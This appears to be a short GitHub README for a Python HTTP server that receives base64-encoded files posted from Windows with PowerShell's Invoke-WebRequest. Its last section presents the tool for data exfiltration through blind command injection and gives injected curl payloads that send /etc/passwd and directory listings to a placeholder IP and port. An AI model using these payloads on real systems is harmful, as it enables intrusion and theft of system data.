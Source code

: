 ## PS-Web-Beacon

A simple http server to transfer files from windows to any other machine. This method utilises PowerShell's IWR to send a base64 encoded file as post data to a python web server, the web server then saves the base64 decoded post data to a file

On origin machine

```
$b64 = [System.convert]::ToBase64String((Get-Content -Path '[FILE-PATH]' -Encoding Byte))
Invoke-WebRequest -Uri http://[<IP>]:[<PORT>] -Method POST -Body $b64
```

On destination

default port is 8000 and default output is to stdout

```
./server.py -f test.txt -p 80
./server.py
```

This server can also be used to exfiltrate data in blind command injection or such

```
127.0.0.1;curl -X POST [<IP>]:[<PORT>] -d "$(base64 /etc/passwd)"
127.0.0.1;curl -X POST [<IP>]:[<PORT>] -d "$(ls -al | base64)"
```
